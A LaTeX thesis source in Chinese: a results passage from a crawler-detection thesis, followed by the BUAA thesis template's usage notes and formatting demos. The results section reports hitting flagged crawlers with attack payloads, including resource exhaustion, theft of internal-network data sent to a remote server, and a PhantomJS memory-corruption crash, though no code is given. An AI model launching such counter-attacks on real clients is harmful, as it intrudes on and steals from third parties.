   \textbf{动态请求数目} &   \textbf{静态请求数目} &  \textbf{动态session数目} &   \textbf{静态session数目}  &  \textbf{动态分类准确率}  &  \textbf{静态分类准确率}  &  \textbf{总准确率} \\
    \hline
8720 & 1280 & 491 & 295 & 96.71\% & 70.47\% & 93.35\% \\

\hline
    \end{tabular}
\end{table}


从分类效果中我们可以看出,请求中存在一定数目的静态请求,出现静态请求的原因在于在爬虫在初始加载网页的时候,并没执行指纹生成算法的载荷,也就不带有相关的动态信息。此外,动态session分类的效果非常好,主要原因在于浏览器动态指纹的独特性,而静态session分类效果不佳,低于静态分类算法在数据集(a)上的分类结果,主要原因是多策略爬虫工具仅仅使用三种webdriver,虽然这些webdriver有很多不同的版本,但同一类浏览器发出请求的静态特征基本一致,这也导致session分类时会产生将使用了同一类浏览器但不同版本的请求分为一个session错误。但是,在真实的网络环境下,因为webdriver的差异性较大,且存在较为可靠的IP地址辅助session分类(多策略爬虫工具生成的请求中往往使用分布式IP),静态session分类效果不会太差。


\subsection{爬虫识别准确率和召回率}
在最终的识别结果中,491个动态session全部被识别为爬虫。静态session中除了一部分因为没有使用分布式IP策略的session因为IP黑名单被识别恶意爬虫,以及一部分因为含有恶意攻击载荷的请求而被标记为恶意爬虫的请求外,其他的请求均没有被识别为爬虫。最终的爬虫识别召回率为91.30\%。为了获取爬虫识别的准确率,我们在一部分批次的session中插入了人类访问,结果发现,爬虫识别的准确率在相关批次的session中平均为97.50\%,通过分析实验数据和结果,猜测获取到如此高的准确率的关键因素是:

\begin{itemize}
\item[1)] 人类浏览器使用的webdriver和爬虫使用的webdriver有显著差异,session分类时不会出错;
\item[2)] 人类浏览器发送的浏览器动态特性(如鼠标移动)保证了该session不会被识别为爬虫;
\item[3)] 出现少量的识别错误是因为在部分请求中,人类用户点击了服务器上不存在的链接,导致了一定数量的404错误,分析该错误后发现是服务器上的配置错误。
\end{itemize}


\begin{table}[h]
  \caption{爬虫识别效果}
  \label{tab:crawler-res}
  \centering
\begin{tabular}{|p{2cm}<{\centering}|p{2cm}<{\centering}|p{2cm}<{\centering}|}
    \hline
   \textbf{爬虫识别准确率} &   \textbf{爬虫识别召回率} &  \textbf{F-measure} \\
    \hline
97.50\% & 91.30\% & 0.943    \\

\hline
    \end{tabular}
\end{table}
\centerline{}

\subsection{爬虫对抗效果}
我们通过手动降低恶意爬虫识别的阈值的方法,将所有类型的爬虫所在的session以及IP列入黑名单,并启用所有的攻击载荷。一段时间后,部分爬虫因为执行了资源消耗型的攻击载荷,向服务器发送的请求速度显著降低。部分爬虫因为执行了信息窃取型的攻击载荷,会将自身内网相关的敏感信息泄露到到了指定的远程服务器上。甚至部分使用PhantomJS作为webdriver的爬虫,因为触发了PhantomJS的内存破坏漏洞的攻击载荷,爬虫进程直接奔溃退出,因此前端的selenium中断了与PhamtomJS的通信,在终端上可以观察到连接错误(connection closed)如图\ref{fig:res}所示。具体的攻击效果会作为demon演示。

\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/crash_crawler.png}
  \caption{爬虫对抗效果图}
  \label{fig:res}
\end{figure}



% 说明
%% !TeX root = ../Template.tex
% 本LaTeX模板的一般使用说明
\chapter{说明}

Again,这是北航论文\LaTeX{}模板(\CTeX{}-Based)\BUAAThesis{}。

本\LaTeX{}模板为北航研究生学位论文模板,适用于理工类博士、学术硕士和专业硕士。本\LaTeX{}模板参考自2015年8月版北航《研究生手册》,具体要求请参见各自的《手册》,最终成文格式需参考学院要求及打印方意见。本模板中大量内容和说明直接摘抄自《手册》(2015年8月版),基本覆盖了论文内容和格式方面的要求。

本模板已上传\href{https://github.com/CheckBoxStudio/BUAAThesis}{GitHub},该仓库中同时也包含了相应的Word模板。

%-----------------------------
\section{宏包使用}

请将以下文件与此LaTeX文件放在同一目录中:

\begin{tabular}{ll}
 \verb|buaa.cls |             & $\triangleright$ LaTeX宏模板文件 \\
 \verb|buaa_mac.cls |         & $\triangleright$ LaTeX宏模板文件(For Mac with XeLaTeX) \\
 \verb|GBT7714-2005.bst|      & $\triangleright$ 国标参考文献BibTeX样式文件2005 \\
 \verb|GBT7714-2015.bst|      & $\triangleright$ 国标参考文献BibTeX样式文件2015 \\
 \verb|logo-buaa.eps|         & $\triangleright$ 论文封皮北航字样 \\
 \verb|head-doctor.eps|       & $\triangleright$ 论文封皮北博士学位论文标题\\
 \verb|head-master.eps|       & $\triangleright$ 论文封皮北学硕学位论文标题 \\
 \verb|head-professional.eps| & $\triangleright$ 论文封皮北专硕学位论文标题\\
 \verb|tex/*.tex|             & $\triangleright$ 本模板样例中的独立章节\\
\end{tabular}\\

通过 \verb|\documentclass[<thesis>,<permission>,<printtype>,<ctexbookoptions>]{buaa}|载入宏包:
\begin{itemize}[leftmargin=3cm]
  \item[{\tt thesis} $\triangleright$]  论文类型(thesis),可选值:\\
    a) 学术硕士论文(\verb|master|)[缺省值]\\
    b) 专业硕士论文(\verb|professional|)\\
    c) 博士论文(\verb|doctor|)
  \item[{\tt permission} $\triangleright$] 密级(permission),可选值: \\
    a) 公开(\verb|public|)[缺省值]\\
    b) 内部(\verb|privacy|)\\
    c) 秘密(\verb|secret|=\verb|secret3|)\\
    --- c.1) 秘密3年(\verb|secret3|)\\
    --- c.2) 秘密5年(\verb|secret5|)\\
    --- c.3) 秘密10年(\verb|secret10|)\\
    --- c.4) 秘密永久(\verb|secret*|)\\
    d) 机密(\verb|classified|=\verb|classified5|)\\
    --- d.1) 机密3年(\verb|classified3|)\\
    --- d.2) 机密5年(\verb|classified5|)\\
    --- d.3) 机密10年(\verb|classified10|)\\
    --- d.4) 机密永久(\verb|classified*|)\\
    e) 绝密(\verb|topsecret|=\verb|topsecret10|)\\
    --- e.1) 绝密3年(\verb|topsecret3|)\\
    --- e.2) 绝密5年(\verb|topsecret5|)\\
    --- e.3) 绝密10年(\verb|topsecret10|)\\
    --- e.4) 绝密永久(\verb|topsecret*|)
  \item[{\tt printtype} $\triangleright$] 打印属性(printtype),可选值: \\
    a) 单面打印(\verb|oneside|)[缺省值]\\
    b) 双面打印(\verb|twoside|)
  \item[{\tt ctexbookoptions} $\triangleright$] {\tt ctexbook}文档类支持的其他选项: \\
    使用{\tt ctexbookoptions}选项传递{\tt ctexbook}文档类支持的其他选项。
    例如,使用{\tt fontset=founder}选项启用方正字体以避免生僻字乱码的问题\footnote{需要系统安装方正字体。}。
\end{itemize}

模板已内嵌LaTeX工具包:
 {\tt ifthen},{\tt etoolbox},{\tt titletoc},{\tt remreset},{\tt remreset},
 {\tt geometry},{\tt fancyhdr},{\tt setspace},{\tt caption},{\tt float},
 {\tt graphicx},{\tt subfigure},{\tt epstopdf},
 {\tt book\-tabs},{\tt longtable},{\tt multirow},{\tt array}, {\tt enumitem},
 {\tt algorithm2e},{\tt amsmath},{\tt amsthm},{\tt listings},
 {\tt pifont},{\tt color},{\tt soul}, {\tt newtxtext}, {\tt newtxmath}。

模板已内嵌宏:\verb|\highlight{text}|(黄色高亮)。

请统一使用UTF-8编码。



%-----------------------------
\section{选项设置}

\begin{itemize}[leftmargin=3cm]
  \item[{\tt  $\backslash$refcolor} $\triangleright$]  开启/关闭引用编号颜色,包括参考文献,公式,图,表,算法等\\
  \texttt{on}:开启 [默认]\\
  \texttt{off}:关闭
  \item[{\tt $\backslash$beginright} $\triangleright$]  摘要和正文从右侧开始\\
  \texttt{on}:开启 [默认]\\
  \texttt{off}:关闭
  \item[{\tt $\backslash$emptypageword} $\triangleright$]  空白页留字
  \item[{\tt $\backslash$Listfigtab} $\triangleright$]  是否使用图标清单目录\\
  \texttt{on}:开启 [默认]\\
  \texttt{off}:关闭
\end{itemize}


%-----------------------------
\section{章节撰写}
本模板支持以下标题级别标题级别:

\begin{tabular}{ll}
  \verb|\chapter{章}|              & $\triangleright$ 第一章 \\
  \verb|\chapter*{无章号章}|       & $\triangleright$ 无章号章 \\
  \verb|\chaptera{无章号有目录章}| & $\triangleright$ 无章号有目录章 \\
  \verb|\summary|                  & $\triangleright$ 总结\\
  \verb|\appendix|                 & $\triangleright$ 附录\\
  \verb|\achievement|              & $\triangleright$ 攻读学位期间取得的成果\\
  \verb|\acknowledgments|          & $\triangleright$ 致谢\\
  \verb|\biography|                & $\triangleright$ 作者简介\\
  \verb|\section{节}|              & $\triangleright$ 1.1 节\\
  \verb|\subsection{条}|           & $\triangleright$ 1.1.1 条\\
  \verb|\subsubsection{A}|         & $\triangleright$ 1.1.1.1 A\\
  \verb|\paragraph{a}|             & $\triangleright$ 1.1.1.1.1 a\\
  \verb|\subparagraph{a)}|         & $\triangleright$ 1.1.1.1.1.1 a)\\
\end{tabular}

%-----------------------------
\section{注意事项}
\begin{itemize}
  \item[$\triangleright$] \textit{中文斜体}将转换为楷体;
  \item[$\triangleright$] \verb|buaa.cls|采用包{\tt newtxtext}和{\tt newtxmath},\textbf{中文粗体}在Windows下转换为黑体(有可能是因为newtx包没安装好,By WeiQM),Linux下正常(By QiaoJF);
  \item[$\triangleright$] \verb|buaa_mac.cls|采用包{\tt times},\textbf{中文粗体}转换为黑体(By CaiBW);
  \item[$\triangleright$] \verb|\label{<text>}|中不能使用中文;
  \item[$\triangleright$] 浮动体与正文之间的距离是弹性的;
  \item[$\triangleright$] 命令符与汉字之间请注意加空格以避免undefined错误(pdfLaTeX下好像一般不存在这个问题,主要在XeLaTeX编译环境下发生);
\end{itemize}

%-----------------------------
\section{ToDo}
\begin{itemize}
  \item[$\triangleright$] 数学环境的行间隔;
  \item[$\triangleright$] 参考文献的行间隔;
\end{itemize}

%-----------------------------
\section{意见及问题反馈}

\indent E-mail:weiqm@buaa.edu.cn

\indent GitHub:\href{https://github.com/CheckBoxStudio/BUAAThesis/issues}{https://github.com/CheckBoxStudio/BUAAThesis/issues}


% 示例
%% !TeX root = ../Template.tex
% 本LaTeX模板的使用示例
\chapter{示例}

%==============================
\section{参考文献引用}

%--------------------------------
\subsection{数字标注}
\noindent
\begin{tabular}{l@{\quad$\Rightarrow$\quad}l}
  \verb|\cite{knuth86a}| & \cite{knuth86a}\\
  \verb|\citet{knuth86a}| & \citet{knuth86a}\\
  \verb|\citet[chap.~2]{knuth86a}| & \citet[chap.~2]{knuth86a}\\[0.5ex]
  \verb|\citep{knuth86a}| & \citep{knuth86a}\\
  \verb|\citep[chap.~2]{knuth86a}| & \citep[chap.~2]{knuth86a}\\
  \verb|\citep[see][]{knuth86a}| & \citep[see][]{knuth86a}\\
  \verb|\citep[see][chap.~2]{knuth86a}| & \citep[see][chap.~2]{knuth86a}\\[0.5ex]
  \verb|\citet*{knuth86a}| & \citet*{knuth86a}\\
  \verb|\citep*{knuth86a}| & \citep*{knuth86a}\\
\end{tabular}
\par\noindent
\begin{tabular}{l@{\quad$\Rightarrow$\quad}l}
  \verb|\citet{knuth86a,tlc2}| & \citet{knuth86a,tlc2}\\
  \verb|\citep{knuth86a,tlc2}| & \citep{knuth86a,tlc2}\\
  \verb|\cite{knuth86a,knuth84}| & \cite{knuth86a,knuth84}\\
  \verb|\upcite{knuth86a,knuth84}| & \upcite{knuth86a,knuth84}\\
  \verb|\citet{knuth86a,knuth84}| & \citet{knuth86a,knuth84}\\
  \verb|\citep{knuth86a,knuth84}| & \citep{knuth86a,knuth84}\\
  \verb|\cite{knuth86a,knuth84,tlc2}| & \cite{knuth86a,knuth84,tlc2}\\
\end{tabular}

%--------------------------------
\subsection{数字标注-上标形式}
\noindent
\begin{tabular}{l@{\quad$\Rightarrow$\quad}l}
  \verb|\upcite{knuth86a}| & \upcite{knuth86a}\\
  \verb|\upcite{knuth86a,knuth84,tlc2}| & \upcite{knuth86a,knuth84,tlc2}\\
\end{tabular}
\par\noindent
实现源码:\verb|\newcommand{\upcite}[1]{\textsuperscript{\cite{#1}}}|。


%--------------------------------
\subsection{著者-出版年制标}
\citestyle{authoryear}
\noindent
\begin{tabular}{l@{\quad$\Rightarrow$\quad}l}
  \verb|\cite{knuth86a}| & \cite{knuth86a}\\
  \verb|\citet{knuth86a}| & \citet{knuth86a}\\
  \verb|\citet[chap.~2]{knuth86a}| & \citet[chap.~2]{knuth86a}\\[0.5ex]
  \verb|\citep{knuth86a}| & \citep{knuth86a}\\
  \verb|\citep[chap.~2]{knuth86a}| & \citep[chap.~2]{knuth86a}\\
  \verb|\citep[see][]{knuth86a}| & \citep[see][]{knuth86a}\\
  \verb|\citep[see][chap.~2]{knuth86a}| & \citep[see][chap.~2]{knuth86a}\\[0.5ex]
  \verb|\citet*{knuth86a}| & \citet*{knuth86a}\\
  \verb|\citep*{knuth86a}| & \citep*{knuth86a}\\
\end{tabular}
\par\noindent
\begin{tabular}{l@{\quad$\Rightarrow$\quad}l}
  \verb|\citet{knuth86a,tlc2}| & \citet{knuth86a,tlc2}\\
  \verb|\citep{knuth86a,tlc2}| & \citep{knuth86a,tlc2}\\
  \verb|\cite{knuth86a,knuth84}| & \cite{knuth86a,knuth84}\\
  \verb|\citet{knuth86a,knuth84}| & \citet{knuth86a,knuth84}\\
  \verb|\citep{knuth86a,knuth84}| & \citep{knuth86a,knuth84}\\
\end{tabular}
\citestyle{numbers}

%--------------------------------
\subsection{其他形式的标注}
\noindent
\begin{tabular}{l@{\quad$\Rightarrow$\quad}l}
  \verb|\citealt{tlc2}| & \citealt{tlc2}\\
  \verb|\citealt*{tlc2}| & \citealt*{tlc2}\\
  \verb|\citealp{tlc2}| & \citealp{tlc2}\\
  \verb|\citealp*{tlc2}| & \citealp*{tlc2}\\
  \verb|\citealp{tlc2,knuth86a}| & \citealp{tlc2,knuth86a}\\
  \verb|\citealp[pg.~32]{tlc2}| & \citealp[pg.~32]{tlc2}\\
  \verb|\citenum{tlc2}| & \citenum{tlc2}\\
  \verb|\citetext{priv.\ comm.}| & \citetext{priv.\ comm.}\\
\end{tabular}

\noindent
\begin{tabular}{l@{\quad$\Rightarrow$\quad}l}
  \verb|\citeauthor{tlc2}| & \citeauthor{tlc2}\\
  \verb|\citeauthor*{tlc2}| & \citeauthor*{tlc2}\\
  \verb|\citeyear{tlc2}| & \citeyear{tlc2}\\
  \verb|\citeyearpar{tlc2}| & \citeyearpar{tlc2}\\
\end{tabular}

\section{浮动体}

\section{算法环境}

模板中使用 \texttt{algorithm2e} 宏包实现算法环境。关于该宏包的具体用法请阅读宏包的官方文档。\\
\centerline{-----------$\downarrow$-----------Space Check-----------$\downarrow$-----------}

\begin{algorithm}[!h]
  %\SetAlgoLined
  %\SetAlgoVlined
  \caption{A How to (plain).}
  \KwData{this text}
  \KwResult{how to write algorithm with \LaTeX2e{} }
  
  initialization\;
  \While{not at end of this document}{
    read current\;
    \eIf{understand}{
      go to next section\;
      current section becomes this one\;
    }{
      go back to the beginning of current section\;
    }
  }
\end{algorithm}

\centerline{-----------$\uparrow$-----------Space Check-----------$\uparrow$-----------}

\RestyleAlgo{ruled}
\begin{algorithm}[!h]
  \caption{A How to (ruled).}
  \KwData{this text}
  \KwResult{how to write algorithm with \LaTeX2e{} }
  
  initialization\;
  \While{not at end of this document}{
    read current\;
    \eIf{understand}{
      go to next section\;
      current section becomes this one\;
    }{
      go back to the beginning of current section\;
    }
  }
\end{algorithm}

\RestyleAlgo{boxed}
\begin{algorithm}[!h]
  \caption{A How to (boxed).}
  \KwData{this text}
  \KwResult{how to write algorithm with \LaTeX2e{} }
  
  initialization\;
  \While{not at end of this document}{
    read current\;
    \eIf{understand}{
      go to next section\;
      current section becomes this one\;
    }{
      go back to the beginning of current section\;
    }
  }
\end{algorithm}

\RestyleAlgo{boxruled}
\begin{algorithm}[!h]
  \caption{A How to (boxruled).}
  \KwData{this text}
  \KwResult{how to write algorithm with \LaTeX2e{} }
  
  initialization\;
  \While{not at end of this document}{
    read current\;
    \eIf{understand}{
      go to next section\;
      current section becomes this one\;
    }{
      go back to the beginning of current section\;
    }
  }
\end{algorithm}

\subsection{三线表}
推荐使用三线表的方式,如表~\ref{tab:exampletable}。\\
\centerline{-----------$\downarrow$-----------Space Check-----------$\downarrow$-----------}

\begin{table}[!h]
  \centering
  \caption{表的标题}
  \label{tab:exampletable}
  \begin{tabular}{p{4cm}p{4cm}}
    \toprule
    \multicolumn{1}{c}{\textbf{操作系统}} & \multicolumn{1}{c}{\textbf{TeX 发行版}} \\
    \midrule
    所有 & TeX Live \\
    macOS & MacTeX \\
    Windows & MikTeX \\
    \bottomrule
  \end{tabular}
\end{table}

\begin{table}[!h]
  \centering
  \caption{让我们看看一个长标题长什么样。还不够长?那我再多写一点。还是不够长?那我再多写一点点。OK,就是长这样的!}
  \label{tab:exampletable}
  \begin{tabular}{p{4cm}p{4cm}}
    \toprule
    \multicolumn{1}{c}{\textbf{操作系统}} & \multicolumn{1}{c}{\textbf{TeX 发行版}} \\
    \midrule
    所有 & TeX Live \\
    macOS & MacTeX \\
    Windows & MikTeX \\
    \bottomrule
  \end{tabular}
\end{table}

\centerline{-----------$\uparrow$-----------Space Check-----------$\uparrow$-----------}

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

\section{长表格}

超过一页的表格要使用专门的 \texttt{longtable} 环境(表~\ref{tab:longtable})。\\
\centerline{-----------$\downarrow$-----------Space Check-----------$\downarrow$-----------}


\begin{longtable}[h]{ccc}
  % 首页表头
  \caption[长表格演示]{长表格演示}
  \label{tab:longtable}\\
  \toprule
  名称  & 说明 & 备注\\
  \midrule
  \endfirsthead
  % 续页表头
  \caption[]{长表格演示(续)} \\
  \toprule
  名称  & 说明 & 备注 \\
  \midrule
  \endhead
  % 首页表尾
  \hline
  \multicolumn{3}{r}{\small 续下页}
  \endfoot
  % 续页表尾
  \bottomrule
  \endlastfoot
  
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
  AAAAAAAAAAAA   &   BBBBBBBBBBB   &   CCCCCCCCCCCCCC   \\
\end{longtable}

\centerline{-----------$\uparrow$-----------Space Check-----------$\uparrow$-----------}


\section{插图}

\centerline{-----------$\downarrow$-----------Space Check-----------$\downarrow$-----------}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=.5\textwidth]{logo-buaa}
  \caption{测试图片\\第二行题注}
  \label{fig:logo}
\end{figure}
\centerline{-----------$\uparrow$-----------Space Check-----------$\uparrow$-----------}

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

\section{数学环境}

\subsection{数学符号}

模板定义了一些正体(upright)的数学符号:
\begin{center}
  \begin{tabular}{rl}
    \toprule
    符号                 & 命令 \\
    \midrule
    常数$\eu$     & \verb|\eu| \\
    复数单位$\iu$ & \verb|\iu| \\
    微分符号$\diff$ & \verb|\diff| \\
    $\argmax$         & \verb|\argmax| \\
    $\argmin$         & \verb|\argmin| \\
    \bottomrule
  \end{tabular}
\end{center}

更多的例子:
\begin{equation}
\eu^{\iu\pi} + 1 = 0
\end{equation}
\begin{equation}
\frac{\diff^2u}{\diff t^2} = \int f(x) \diff x
\end{equation}
\begin{equation}
\argmin_x f(x)
\end{equation}

\subsection{定理、引理和证明}

\begin{definition}
  If the integral of function $f$ is measurable and non-negative, we define
  its (extended) \textbf{Lebesgue integral} by
  \begin{equation}
  \int f = \sup_g \int g,
  \end{equation}
  where the supremum is taken over all measurable functions $g$ such that
  $0 \leq g \leq f$, and where $g$ is bounded and supported on a set of
  finite measure.
\end{definition}

\begin{example}
  Simple examples of functions on $\mathbf{R}^d$ that are integrable
  (or non-integrable) are given by
  \begin{equation}
  f_a(x) =
  \begin{cases}
  |x|^{-a} & \text{if } |x| \leq 1,\\
  0 & \text{if } x > 1.
  \end{cases}
  \end{equation}
  \begin{equation}
  F_a(x) = \frac{1}{1 + |x|^a}, \qquad \text{all } x \in \mathbf{R}^d.
  \end{equation}
  Then $f_a$ is integrable exactly when $a < d$, while $F_a$ is integrable
  exactly when $a > d$.
\end{example}

\begin{lemma}[Fatou]
  Suppose $\{f_n\}$ is a sequence of measurable functions with $f_n \geq 0$.
  If $\lim_{n \to \infty} f_n(x) = f(x)$ for a.e. $x$, then
  \begin{equation}
  \int f \leq \liminf_{n \to \infty} \int f_n.
  \end{equation}
\end{lemma}

\begin{remark}
  We do not exclude the cases $\int f = \infty$,
  or $\liminf_{n \to \infty} f_n = \infty$.
\end{remark}

\begin{corollary}
  Suppose $f$ is a non-negative measurable function, and $\{f_n\}$ a sequence
  of non-negative measurable functions with
  $f_n(x) \leq f(x)$ and $f_n(x) \to f(x)$ for almost every $x$. Then
  \begin{equation}
  \lim_{n \to \infty} \int f_n = \int f.
  \end{equation}
\end{corollary}

\begin{proposition}
  Suppose $f$ is integrable on $\mathbf{R}^d$. Then for every $\epsilon > 0$:
  \begin{enumerate}
    \renewcommand{\theenumi}{\roman{enumi}}
    \item There exists a set of finite measure $B$ (a ball, for example) such that
    \begin{equation}
    \int_{B^c} |f| < \epsilon.
    \end{equation}
    \item There is a $\delta > 0$ such that
    \begin{equation}
    \int_E |f| < \epsilon \qquad \text{whenever } m(E) < \delta.
    \end{equation}
  \end{enumerate}
\end{proposition}

\begin{theorem}
  Suppose $\{f_n\}$ is a sequence of measurable functions such that
  $f_n(x) \to f(x)$ a.e. $x$, as $n$ tends to infinity.
  If $|f_n(x)| \leq g(x)$, where $g$ is integrable, then
  \begin{equation}
  \int |f_n - f| \to 0 \qquad \text{as } n \to \infty,
  \end{equation}
  and consequently
  \begin{equation}
  \int f_n \to \int f \qquad \text{as } n \to \infty.
  \end{equation}
\end{theorem}

\begin{proof}
  Trivial.
\end{proof}



\subsection{自定义}

